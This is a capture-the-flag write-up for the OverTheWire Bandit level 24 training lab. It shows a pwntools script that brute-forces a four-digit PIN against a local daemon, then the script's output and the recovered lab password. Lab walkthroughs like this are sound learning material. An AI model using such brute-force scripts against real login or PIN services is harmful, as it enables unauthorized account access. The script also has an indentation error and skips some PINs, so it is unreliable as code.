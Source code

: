 # Level 24
## Connection
~~~
ssh bandit24@bandit.labs.overthewire.org -p2220
password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~

## Goal
A daemon is listening on port `30002` and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution
~~~
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234" | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
~~~

~~~
bandit24@bandit:~$ mktemp -d
/tmp/tmp.06UABNmjBt
~~~

Create the following script in `/tmp/tmp.06UABNmjBt`:

```python
#!/usr/bin/env python2
from pwn import *
from multiprocessing import Process

password = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
host, port = '127.0.0.1', 30002
context.log_level = 'warn' # avoid unncessary connection details

def bruteforce(start, end):
	for i in range(start, end):
		s = remote(host, port)
		s.recv()
		pin = '{:04}'.format(i)
		s.sendline(password + ' ' + pin)
		response = s.recvline()
		if 'Wrong' in response:
			print "[FAIL] PIN: %s" % pin
		else:
			print "[SUCCESS] PIN: %s" % pin
			break
		s.close()

if __name__ == '__main__':
	p1 = Process(target=bruteforce, args=(0,   2000))
	p2 = Process(target=bruteforce, args=(2001,4000))
	p3 = Process(target=bruteforce, args=(4001,6000))
	p4 = Process(target=bruteforce, args=(6001,8000))
	p5 = Process(target=bruteforce, args=(8001,9999))
    p1.start()
    p2.start()
    p3.start()
    p4.start()
    p5.start()
```

*Note: I started with a single process script but after 50 minutes, my connection failed. I modified the range to resume to where it left, but the script kept failing. I then decided to update it with a multiprocessing version and found the password in 15 minutes! The script could be improved but it works...*

Here is the output:
~~~
bandit24@bandit:/tmp/tmp.06UABNmjBt$ python bf.py 
[FAIL] PIN: 6001
[FAIL] PIN: 0000
[FAIL] PIN: 2001
[FAIL] PIN: 4001
[FAIL] PIN: 8001
[FAIL] PIN: 0001
[FAIL] PIN: 2002
[FAIL] PIN: 6002
[FAIL] PIN: 8002
[FAIL] PIN: 4002
[FAIL] PIN: 0002
[FAIL] PIN: 4003
[FAIL] PIN: 6003
[FAIL] PIN: 8003
[FAIL] PIN: 2003
[FAIL] PIN: 0003
[FAIL] PIN: 6004
[FAIL] PIN: 4004
[FAIL] PIN: 8004
...
[FAIL] PIN: 1401
[FAIL] PIN: 7402
[FAIL] PIN: 3401
[FAIL] PIN: 5402
[SUCCESS] PIN: 9403
[FAIL] PIN: 1402
[FAIL] PIN: 7403
[FAIL] PIN: 3402
[FAIL] PIN: 5403
[FAIL] PIN: 1403
[FAIL] PIN: 7404
~~~

Now that we know the password:
~~~
bandit24@bandit:/tmp/tmp.06UABNmjBt$ nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9403
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
~~~

# Flag
~~~
level25:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
~~~